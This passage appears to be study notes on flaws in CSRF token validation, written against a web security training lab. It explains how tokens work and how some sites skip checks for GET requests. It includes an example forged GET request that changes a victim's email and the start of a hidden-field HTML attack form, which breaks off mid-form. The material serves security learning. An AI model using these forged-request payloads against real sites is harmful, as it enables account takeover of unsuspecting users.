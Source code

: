  Submitting this form results in the following request: 

```HTTP

POST /my-account/change-email HTTP/1.1

Host: normal-website.com

Content-Length: 70

Content-Type: application/x-www-form-urlencoded



csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com

```

When implemented correctly, CSRF tokens help protect against CSRF attacks by making it difficult for an attacker to construct a valid request on behalf of the victim. As the attacker has no way of predicting the correct value for the CSRF token, they won't be able to include it in the malicious request. 



CSRF tokens don't have to be sent as hidden parameters in a POST request. Some applications place CSRF tokens in HTTP headers, for example. The way in which tokens are transmitted has a significant impact on the security of a mechanism as a whole.



### Common flaws in CSRF token validation



##### 1)Validation of CSRF token depends on request method



Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used. 

In this situation, the attacker can switch to the GET method to bypass the validation and deliver a CSRF 



```HTTP

GET /email/change?email=pwned@evil-user.net HTTP/1.1

Host: vulnerable-website.com

Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

```



```html



<html>

    <body>

        <form action="https://0a0d00f703d3369d8120adf8001e0067.web-security-academy.net/my-account/change-email">

            <input type="hidden" name="email" placeholder="Enter email"    value="csrf@csrf.com">

        </form>
```